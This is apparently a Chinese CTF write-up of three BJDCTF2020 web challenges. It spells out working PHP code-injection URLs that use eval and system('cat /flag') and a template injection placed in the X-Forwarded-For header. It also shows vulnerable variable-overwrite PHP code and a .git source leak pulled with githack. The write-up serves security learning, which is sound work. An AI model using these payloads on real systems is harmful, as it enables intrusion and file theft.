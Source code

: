 在PHP中，对于传入的非法的 $_GET 数组参数名，会将其转换成下划线，这就导致我们正则匹配失效

>[[BJDCTF2020]ZJCTF，不过如此 ](https://www.cnblogs.com/wangtanzhi/p/12328083.html)


`/next.php?\S*=${getflag()}&cmd=show_source(%22/flag%22);`
`next.php?\S*=${eval($_POST[wtz])}
POST：
wtz=system("cat /flag");`#其中的wtz可以自定义，这里是这位博主的缩写

顺便复习一下刚刚学的几个函数：`readfile(),file_get_contents(),highlight_file()`都可以读出flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210609203708503.png)
**旧友新朋！！！！**

# [BJDCTF2020]The mystery of ip

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210610090909681.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
界面很有意思，左上角三个选项，主页，flag，hint

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210610091035521.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
`flag.php`能查出我的ip，肯定是用了什么功能

>[王叹之的解题思路](https://www.cnblogs.com/wangtanzhi/p/12318630.html)


从`XFF`头入手，尝试模板注入
`{{system("ls")}}`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210610100349642.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
`X-Forwarded-For:{{system("ls cd ../../../../&cat /flag")}}`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210610100817144.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
他直接写`/flag`是因为flag就在根目录下，我添加一下寻找有flag路径的过程解决一下问为什么直接`cat /flag`的疑惑



**学习！学习！！**


# [BJDCTF2020]Mark loves cat

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210610202212654.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
打开是一个个人博客网站，看到这个页面首先我考虑的是`模板注入`，然后就是可能有`文件上传`，如果再没有就考虑第二层,`页面隐藏信息`，发现隐藏文件，目录扫描，或者，`源码泄露`，目录扫描低线程带延时。有git目录

用`githack`看源码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210610211809286.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
其实如果够细心的话就会发现他博客页面左下角有一个`dog`字样哈哈哈，根据这个点可能会想到查看页面源码的，看看进行了什么判断
```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

```